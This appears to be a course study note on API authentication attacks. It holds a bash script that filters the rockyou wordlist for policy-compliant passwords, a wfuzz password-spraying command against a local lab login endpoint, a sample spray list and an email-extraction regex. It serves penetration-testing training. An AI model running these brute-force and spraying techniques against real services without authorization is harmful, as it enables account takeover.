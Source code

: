 # Authentication Attacks  

>[Introduction to Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2161556362)  

## Classic Authentication Attacks  

>[Classic Authentication Attacks](https://university.apisec.ai/products/api-penetration-testing/categories/2150251352/posts/2157505645)  

>Password Brute-Force Attacks  

>Information about creating targeted password lists:  

* [Mentalist](https://github.com/sc0tfree/mentalist)  
* [Common User Passwords Profiler](https://github.com/Mebus/cupp)  

>Get words matching complex password policy of target, bash script:  

```bash
#!/bin/bash

# Input and output file names
input_file="/usr/share/wordlists/rockyou.txt"
output_file="complex-passwords-uniq-sorted-0955.txt"
temp_file="temp-results.txt"

# Set locale to C to avoid issues with multibyte characters in rockyou.txt
export LC_ALL=C

# Clear the temp file if it already exists to avoid duplicate entries
> "$temp_file"

# Use awk to match words that meet all specified conditions and append to temp file
awk '{
  for (i = 1; i <= NF; i++) {
    word = $i
    if (length(word) >= 8 && 
        word ~ /[A-Z]/ && 
        word ~ /[a-z]/ && 
        word ~ /[0-9]/ && 
        word ~ /[!@#$%^&*()_+{}\[\]:;<>,.?~\\/-]/) {
      print word >> "'"$temp_file"'"
    }
  }
}' "$input_file"

# Append sorted unique words from temp file to output file without overwriting
sort "$temp_file" | uniq >> "$output_file"

# Remove duplicate lines in output file to ensure all entries are unique
sort -u "$output_file" -o "$output_file"

# Remove the temporary file after processing
rm "$temp_file"

# Output message
echo "Unique sorted words matching the complex password policy conditions saved to $output_file."
```  

>Password Spraying, using `wfuzz` against the API web application endpoint:  

```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```  

>The `--hc` option hides responses with certain response codes. 
>`–hc` option helps you filter out the responses you don’t want to see.  
>The `-H` option add a header to the request. API respond with an HTTP 415 Unsupported Media Type error, if you don’t include the `Content-Type:application/json` header.  

>Sample of passwords to be used during password spray attack:  

```
QWER!@#$
Password1!
Winter2021!
Spring2021?
Fall2021!
Autumn2021?
Summer2022!
Spring2022!
QWER!@#$
March212006!
July152006!
Twitter@2022
JPD1976!
Dorsey@2022
```  

>Extract emails, with regular expressions to pull emails from the saved JSON response.  

```
$grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json
```  

>Note on Base64 Encoding  

>Using Burp Suite Professional, ***Payloads*** window add a `Payload processing` rule.  
>Select `Add > Encoded > Base64-encode` and then click OK.  

----  

